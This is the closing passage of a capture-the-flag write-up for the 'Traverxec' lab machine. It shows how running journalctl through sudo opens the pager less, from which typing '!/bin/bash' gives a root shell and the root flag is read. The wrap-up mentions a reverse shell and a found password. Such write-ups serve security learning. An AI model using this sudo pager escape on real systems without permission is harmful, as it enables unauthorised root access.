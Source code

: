 From `less` we are able to run a bash command as `/bin/bash/`.

![Running a bash command from less](/media/2020.04/traverxec_4.png){: .image-process-article-image}

We then get a root shell and are able to get the flag.

    :::text
    david@traverxec:~$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
    -- Logs begin at Wed 2019-11-27 05:44:37 EST, end at Wed 2019-11-27 06:15:38 EST
    Nov 27 06:11:16 traverxec crontab[4166]: (www-data) LIST (www-data)
    Nov 27 06:12:32 traverxec sudo[4554]: pam_unix(sudo:auth): authentication failur
    ...skipping...
    Nov 27 06:12:41 traverxec sudo[4554]: www-data : user NOT in sudoers ; TTY=pts/1
    Nov 27 06:13:05 traverxec su[4567]: pam_unix(su:auth): authentication failure; l
    Nov 27 06:13:07 traverxec su[4567]: FAILED SU (to david) www-data on pts/6
    !/bin/bash
    root@traverxec:/home/david# cat /root/root.txt
    9aa36a6<redacted>

# Wrapping up

This box is quit easy. The revershell is quit quick. The privilege escalation to
user might a pain as there is some rabbit holes (like this `Nowonly4me`
password) and the root part is quit CTFish but quick.

